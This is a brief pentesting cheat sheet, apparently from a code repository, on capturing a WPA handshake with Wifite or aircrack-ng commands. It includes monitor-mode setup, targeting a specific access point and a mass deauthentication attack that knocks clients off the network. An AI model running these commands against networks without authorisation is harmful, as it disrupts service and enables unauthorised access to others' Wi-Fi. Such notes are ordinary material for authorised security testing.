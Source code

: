 # Wireless pentesting

Capturing WPA handshake
--------

## Short version
Run [Wifite](https://github.com/derv82/wifite) :-)

## Long, manual version

Kill processes that might f stuff up:

    airmon-ng check kill

Start monitoring:

    sudo airmon-ng start wlan0

Find APs to attack:

    sudo airodump-ng mon0

Start listening for a handshake:

    sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w name-of-file-to-output mon0 --ignore-negative-one


Start a mass disassociation to speed up previous step:

    sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 mon0 --ignore-negative-one
